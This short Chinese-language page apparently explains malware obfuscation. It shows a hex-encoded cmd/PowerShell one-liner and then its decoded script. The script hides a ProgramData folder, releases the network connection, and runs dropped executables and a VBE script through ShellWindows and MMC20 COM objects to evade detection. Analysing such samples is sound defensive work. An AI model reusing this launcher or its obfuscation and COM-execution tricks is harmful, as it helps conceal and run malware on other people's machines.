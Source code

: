 ```sh
c:\windows\system32\cmd.exe /c " echo\ -join ( ( 53,74 ,61 , 72, 74 , 20 , 43 ,'3a' , '5c' , 50,72 ,'6f',67 ,72, 61, '6d', 44,61 , 74 ,61,'5c' ,52 , 65,63 ,'6f' ,76,65,72,79,'5c',73, 65, 74 ,75 ,70 , '2e' , 65, 78, 65 ,'3b' ,'5b',53, 79 ,73 , 74 ,65 ,'6d','2e', 41 , 63,74 , 69 , 76, 61 , 74 ,'6f' ,72,'5d','3a', '3a',43 , 72 ,65, 61 ,74,65 ,49 , '6e' , 73 ,74 , 61, '6e', 63, 65, 28, '5b',54,79 ,70 , 65, '5d' ,'3a', '3a' ,47,65 ,74 , 54,79, 70,65,46,72 , '6f' ,'6d', 43, '4c', 53,49 , 44, 28 ,27, 39 , 42 , 41, 30 , 35,39 ,37 ,32 , '2d', 46, 36,41, 38 , '2d' , 31,31 ,43 , 46,'2d' , 41 , 34 , 34, 32 ,'2d',30 ,30 , 41 ,30,43 ,39,30 , 41, 38,46, 33 ,39 ,27,29 , 29 , '2e',69 ,74, 65 , '6d' ,28, 29 , '2e' ,44 ,'6f' , 63 , 75 , '6d', 65 , '6e', 74, '2e' ,41 ,70,70, '6c' ,69 ,63, 61 ,74 , 69 ,'6f', '6e','2e' ,53, 68 , 65 ,'6c' , '6c' , 45, 78, 65,63,75, 74,65 , 28,22, 61 ,74 ,74 , 72,69 , 62, '2e', 65,78 ,65, 22,'2c' ,22,43 , '3a','5c', 50,72,'6f', 67,72 ,61 ,'6d', 44, 61, 74, 61 , '5c' ,52 , 65 , 63 , '6f' ,76, 65 , 72 , 79,20,'2b', 73, 20 , '2b' , 68 ,22,'2c',22, 63 , '3a','2f' ,77,69, '6e' ,64, '6f' ,77,73,'2f',73, 79 ,73 ,74,65, '6d',33 ,32 ,22 ,'2c',24 ,'6e', 75 , '6c', '6c', '2c' ,30 , 29 ,'3b', '5b',53,79,73 , 74 , 65,'6d' , '2e', 41, 63 , 74,69 , 76,61 ,74 , '6f', 72, '5d' , '3a' , '3a' ,43, 72 , 65,61 ,74, 65,49, '6e' ,73 , 74, 61,'6e' , 63 ,65, 28, '5b',54 , 79 ,70,65,'5d' , '3a','3a' , 47 ,65 ,74 ,54,79 ,70, 65 , 46,72, '6f' ,'6d' , 43 , '4c',53, 49 ,44 ,28 , 27 ,39, 42 ,41, 30,35, 39 , 37, 32, '2d' ,46,36 ,41, 38, '2d' ,31 ,31 ,43 ,46 , '2d', 41, 34,34 ,32 , '2d' , 30, 30 ,41 ,30 ,43 , 39,30,41 , 38, 46 ,33, 39 ,27,29, 29 ,'2e' ,69 ,74 , 65 ,'6d' ,28 ,29 ,'2e' , 44 ,'6f',63,75,'6d', 65,'6e',74 , '2e' , 41, 70 , 70, '6c' , 69, 63 , 61 ,74 , 69 ,'6f','6e' ,'2e' ,53 ,68 , 65,'6c' , '6c' , 45,78,65,63 , 75 ,74 ,65 , 28,22 , 69 ,70, 63 ,'6f','6e' ,66, 69,67,'2e' ,65 , 78,65 ,22, '2c' ,22 ,'2f' ,72,65,'6c', 65 , 61,73 ,65, 22, '2c' ,22 , 63,'3a', '2f', 77, 69, '6e',64 , '6f' , 77 , 73 , '2f' , 73 , 79, 73 ,74,65, '6d' , 33 ,32,22 , '2c' , 24,'6e',75,'6c', '6c','2c', 30,29 ,'3b' , 53 , 74, 61 , 72, 74 ,'2d' ,53 , '6c' , 65 ,65, 70 , 20 , '2d', 53 ,65,63, '6f','6e' ,64 , 73,20 ,32, '3b' , '5b',53 , 79, 73, 74,65,'6d','2e' ,41,63 ,74, 69 ,76 ,61, 74, '6f', 72 , '5d' , '3a' ,'3a', 43 , 72 , 65 , 61 , 74 , 65 ,49 ,'6e',73 , 74 , 61,'6e' , 63 ,65,28 , '5b',74 , 79, 70 ,65 , '5d' , '3a' , '3a', 47 ,65 , 74,54 , 79 ,70 , 65 ,46 , 72 , '6f','6d',50,72 , '6f', 67 ,49 ,44,28 ,22 , '4d' , '4d',43 , 32 , 30,'2e',41 ,70 ,70 , '6c', 69, 63,61 , 74, 69 , '6f' ,'6e' ,22 , 29 ,29 , '2e',44, '6f' , 63 , 75 , '6d', 65, '6e',74,'2e', 41,63 , 74, 69 , 76,65,56 , 69, 65 ,77, '2e', 45 ,78 , 65,63, 75 ,74,65 ,53 , 68 ,65 ,'6c','6c',43 , '6f' , '6d','6d', 61,'6e' ,64, 28 , 22 ,43 , '3a','5c', 50 ,72,'6f', 67, 72 , 61 , '6d' , 44 , 61 ,74,61 , '5c',52 ,65 , 63,'6f', 76,65,72,79 ,'5c' , 53, 65, 72, 76 , 65, 72 , '2e',76 ,62 ,65, 22,'2c' ,22 ,30,22, '2c', 22, 30, 22, '2c', 22, '4d', 69 ,'6e', 69 ,'6d',69, '7a',65 ,64, 22 , 29 , '3b', 53,74 ,61, 72 , 74 , 20, 43, '3a' ,'5c' ,50, 72 ,'6f' , 67 , 72 ,61, '6d' ,44 , 61, 74, 61,'5c',52, 65 , 63,'6f',76,65, 72, 79 , '5c', 67, 61, '6d' ,65 ,63 , 61 ,70 , '2e', 65, 78 ,65, '3b', 53 , 74, 61 , 72, 74 ,'2d' ,53 , '6c', 65 , 65 ,70 ,20,'2d' ,53, 65 ,63, '6f' , '6e',64,73 , 20, 32, '3b' , '5b' ,53 ,79 , 73 , 74,65 ,'6d' , '2e', 41 ,63, 74,69,76,61, 74 ,'6f', 72 , '5d' , '3a','3a', 43, 72,65 , 61,74, 65 , 49,'6e' ,73,74, 61,'6e' ,63,65,28,'5b' ,54,79 ,70 ,65 ,'5d','3a' , '3a' , 47,65 , 74 ,54 , 79, 70 , 65,46 , 72, '6f', '6d',43 , '4c', 53,49, 44,28, 27,39,42,41 , 30, 35,39 ,37,32 ,'2d', 46 , 36, 41 , 38 ,'2d',31, 31 , 43, 46,'2d',41 ,34 ,34 , 32 ,'2d' ,30 ,30, 41,30 , 43,39 , 30 ,41 ,38, 46 , 33, 39 , 27,29,29, '2e' ,69 , 74,65 ,'6d' ,28,29 ,'2e' , 44, '6f',63, 75, '6d' , 65,'6e', 74 , '2e', 41 ,70,70 , '6c' ,69 ,63 ,61 ,74,69 ,'6f', '6e' ,'2e' , 53 , 68 ,65 , '6c' ,'6c' , 45 ,78,65 ,63 , 75, 74, 65 ,28,22, 69 , 70 , 63, '6f', '6e', 66 ,69, 67,'2e', 65 , 78,65 ,22 , '2c' , 22 ,'2f',72 , 65 , '6e', 65 , 77,22 , '2c' ,22,63 ,'3a','2f' ,77, 69 ,'6e', 64 ,'6f' ,77,73 , '2f', 73 ,79,73, 74 , 65,'6d',33 , 32 ,22, '2c',24 , '6e' ,75 ,'6c', '6c' ,'2c' , 30, 29 ) ^^^|foreach { ([convert]::toint16( ([string]$_ ) ,16) -as [char])} ) ^^^| . ( $shellid[1]+$shellid[13]+'x') | powershell -command $executioncontext.invokecommand.invokescript( ${input})"
```

> 混淆的方式不只一種，這邊僅舉其中一種為例。

還原後的內容：

```powershell
Start C:\ProgramData\Recovery\setup.exe;
[System.Activator]::CreateInstance([Type]::GetTypeFromCLSID('9BA05972-F6A8-11CF-A442-00A0C90A8F39')).item().Document.Application.ShellExecute("attrib.exe","C:\ProgramData\Recovery +s +h","c:/windows/system32",$null,0);
[System.Activator]::CreateInstance([Type]::GetTypeFromCLSID('9BA05972-F6A8-11CF-A442-00A0C90A8F39')).item().Document.Application.ShellExecute("ipconfig.exe","/release","c:/windows/system32",$null,0);
Start-Sleep -Seconds 2;
[System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application")).Document.ActiveView.ExecuteShellCommand("C:\ProgramData\Recovery\Server.vbe","0","0","Minimized");
Start C:\ProgramData\Recovery\gamecap.exe;
Start-Sleep -Seconds 2;
```